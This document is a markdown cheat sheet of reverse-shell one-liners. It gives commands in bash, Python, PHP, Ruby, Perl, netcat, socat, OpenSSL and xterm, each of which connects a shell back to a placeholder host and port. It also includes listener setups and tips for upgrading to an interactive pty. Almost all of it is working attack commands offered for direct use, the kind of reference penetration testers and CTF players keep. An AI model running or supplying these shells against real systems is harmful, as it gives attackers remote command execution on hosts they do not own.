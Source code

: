 ```yaml
---
title: Reverse Shells
tags:
  - Cheatsheet
---
```


Examples generally use `$HOST` and `$PORT` for the target host and port for the
shell callback.

## Bash ##

Bash **only** reverse shells generally require that `/dev/tcp` is enabled in
bash at build-time.

```
bash -i >& /dev/tcp/$HOST/$PORT 0>&1
```

Use redirection through a temporary FD (in this case, 42).

```
0<&42;exec 42<>/dev/tcp/$HOST/$PORT; sh <&42 >&42 2>&42
```

## Python ##

```
python -c 'import socket as so,subprocess,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("$HOST",$PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP ##

```
php -r '$sock=fsockopen("$HOST",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby ##

```
ruby -rsocket -e'f=TCPSocket.open("$HOST",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Perl ##

```
perl -e 'use Socket;$i="$HOST";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Common Utilities ##

Sometimes you can just use a utility available on the system.

### Netcat (Traditional) ###

```
nc -e /bin/sh $HOST $PORT
```

### Socat ###

[Socat is also a great handler for the shells](https://systemoverlord.com/2018/01/20/socat-as-a-handler-for-multiple-reverse-shells.html)

```
socat TCP:$HOST:$PORT exec:/bin/bash,pty,stderr,setsid
```

You can even get a full pty if you use socat as your listener.

Listener:

```
socat file:`tty`,raw,echo=0 tcp-listen:$PORT
```

Victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

### Netcat (OpenBSD) ###

OpenBSD netcat removed the `-e` flag "for security."  All of these mechanisms
will also work on traditional netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc $HOST $PORT >/tmp/f
```

### OpenSSL ###

For your encrypted reverse shells!  Depends on the openssl command line binary.
It's a lot like OpenBSD netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|openssl s_client -connect $HOST:$PORT >/tmp/f
```

### Xterm ###

This is very different.  Instead of forwarding a shell, forward a whole terminal
emulator!

Attacker host:

```
xnest :1
xhost +targetip
```

On the target:

```
xterm -display $HOST:1
```

## Reverse Shell Tips ##

So a basic reverse shell pretty much sucks.

- Hitting `^C` is a terrible experience.  (Usually kills the listener, not what
  you ran on the server.)
- No history, job control, etc.
- Can't use most editors.

### Getting a pty (python) ###

Probably the most commonly known technique:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Getting a pty (expect) ###

Expect isn't as commonly installed as python, but this is a good choice for some
circumstances.

```
cat >/tmp/e.exp <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF
expect /tmp/e.exp
```

### Upgrading via python + stty ###

[Inspiration](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

Before connection:

``` bash
echo 'After connection, please run: '
echo python -c 'import pty; pty.spawn("/bin/bash")'
echo export SHELL=bash
echo export TERM=$TERM
echo stty rows $(stty -a | tr ';' '\n' | awk '/^ rows/{print $2}') columns $(stty -a | tr ';' '\n' | awk '/^ columns/{print $2}')
stty raw -echo  # Note, you will lose echo here.
nc -lvp $PORT
```

After connecting, run the commands provided by the original script, and you
should be good to go.

### Other Upgrading Tips ###

See
[ropnop's upgrading guide](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
